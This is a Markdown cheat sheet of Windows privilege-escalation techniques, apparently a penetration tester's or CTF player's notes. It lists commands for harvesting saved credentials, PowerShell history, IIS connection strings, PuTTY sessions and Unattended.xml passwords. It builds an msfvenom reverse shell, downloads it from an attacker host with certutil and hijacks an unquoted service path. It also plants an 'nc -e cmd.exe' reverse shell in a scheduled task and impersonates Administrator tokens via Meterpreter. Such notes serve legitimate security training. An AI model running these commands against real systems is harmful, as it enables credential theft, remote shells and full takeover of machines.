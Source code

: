 ```yaml
---
title: 5 – Privesc Windows
summary: Privilege Escalation step – a note for elevating privileges on a Windows machine.
description: Privilege Escalation step – a note for elevating privileges on a Windows machine.
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>powershell -c "Get-Service"</font>**</br>
 > Return services.

 > 
 > **<font color=red>Get-ScheduledTask</font>**</br>
 > Return Scheduled tasks.

 > 
 > **<font color=red>cmdkey /list</font>**</br>
 > List saved credentials (can’t see password).</br>
 > **<font color=red>runas /savecred /user:</font>admin <font color=red>powershell.exe</font>**</br>
 > Run a program with saved creds.

 > 
 > **<font color=red>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</font>**</br>
 > Show CMD history.

 > 
 > **<font color=red>type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</font>**</br>
 > Show Powershell History.

 > 
 > **<font color=red>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString</font>**</br>
 > Search for database password in IIS config.

 > 
 > **<font color=red>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s</font>**</br>
 > Look for Putty credentials in registers (SimonTatham is PuTTY’s creator).

# Automated Scripts

---

### POWERUP

**https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1**

 > 
 > **<font color=red>. .\PowerUp.ps1</font>**</br>
 > **<font color=red>Invoke-AllChecks</font>**

---

### EXPLOIT-SUGGESTER

**https://github.com/AonCyberLabs/Windows-Exploit-Suggester** 

#### On target

 > 
 > **<font color=red>systeminfo</font>**

#### On attacker machine

 > 
 > **<font color=orange>pip install xlrd==1.2.0</font>**</br>
 > 
 > **<font color=red>windows-exploit-suggester.py --update</font>**</br>
 > **<font color=red>windows-exploit-suggester.py --systeminfo</font> systeminfo.txt <font color=red>--database</font> \[DATE\]-mssb.xls**

---

### WINPEAS

**https://github.com/carlospolop/PEASS-ng/releases**

 > 
 > **<font color=red>winPEASx64.exe</font>**
 > Run WinPEAD

#### WINPEAS Output

````
WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected YOU CAN MODIFY THIS SERVICE: AllAccess
````

#### On attacker machine

 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] -f <font color=red>exe -o</font> Wise.exe**</br>
 > Create a reverse shell with the name of the modifiable service.
 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener.

#### On target machine

 > 
 > **<font color=red>cd "C:\\Program Files (x86)\\</font>Wise"**</br>
 > **<font color=red>certutil.exe -urlcache -f</font> http://\[ATTACKER_IP\]:\[ATTACKER_PORT\]/Wise.exe Wise.exe**</br>
 > Download crafted executable and place it where the space is in the vulnerable path.
 > 
 > **<font color=red>sc.exe stop</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe query</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe start</font> WiseBootAssistant**</br>
 > Restart the service to execute the crafted one. 

---

### PRIVESCHECK

**https://github.com/itm4n/PrivescCheck**

 > 
 > **<font color=red>Set-ExecutionPolicy Bypass -Scope process -Force</font>**</br>
 > **<font color=red>. .\PrivescCheck.ps1</font>**</br>
 > **<font color=red>Invoke-PrivescCheck</font>**</br>

---

### ROADRECON (Azure AD)

**https://github.com/dirkjanm/ROADtools/wiki/Getting-started-with-ROADrecon**

# Abusing Schtasks

---

### Show Schtasks

 > 
 > **<font color=red>schtasks /query /tn</font> vulnerableTask <font color=red>/fo list /v</font>**</br>
 > Show detail info about the scheduled task.
 > 
 > **<font color=red>cd c:\\Program Files (x86)\\SystemScheduler\\Events</font>**</br>
 > **<font color=red>type</font> \[ID\]<font color=red>.INI_LOG.txt</font>**
 > Show tasks logs.

---

### Replace executable

 > 
 > **<font color=red>mv</font> excutedByTask.exe excutedByTask.exe.bak**</br> 
 > **<font color=red>mv</font> msfvenomeReverseShell excutedByTask.exe**
 > Replace exe that being executed by scheduled tasks.

---

### Inject scheduled task

 > 
 > **<font color=red>echo</font> c:\\tools\\nc64.exe <font color=red>-e cmd.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>\> C:\\tasks\\schtask.bat</font>**</br>
 > Inject scheduled task with reverse shell.

# Abusing Privileges

---

Here are the most commonly abused privileges:

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

 > 
 > **<font color=red>whoami /priv</font>**</br>
 > Show current user privileges.

---

### SeDebugPrivilege and SeImpersonatePrivilege

When **SeDebugPrivilege** and **SeImpersonatePrivilege** are enabled, we can impersonate another user.

 > 
 > **<font color=red>load incognito</font>**</br>
 > **<font color=red>list_tokens -g</font>**</br>
 > List tokens.
 > 
 > **<font color=red>impersonate_token</font> "BUILTIN\\Administrators"**</br>
 > Impersonate token.

To determine rights, Windows uses the Primary Token of the process and not the impersonated token. So we have to migrate to a process with correct permissions. 

The safest to pick is **services.exe**.

 > 
 > **<font color=red>migrate</font> 668**</br>
 > Migrate to process 668.

# Unattended Path

Unattended Setup is the method by which OEMs (Original Equipment Manufacturers) install Windows NT in unattended mode.
C:\\Windows\\Panther\\Unattend\\Unattended.xml is where users' passwords are stored in base64. 

 > 
 > **<font color=red>type C:\\Windows\\Panther\\Unattend\\Unattended.xml</font>**</br>
 > Display unattended password.

````xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
````
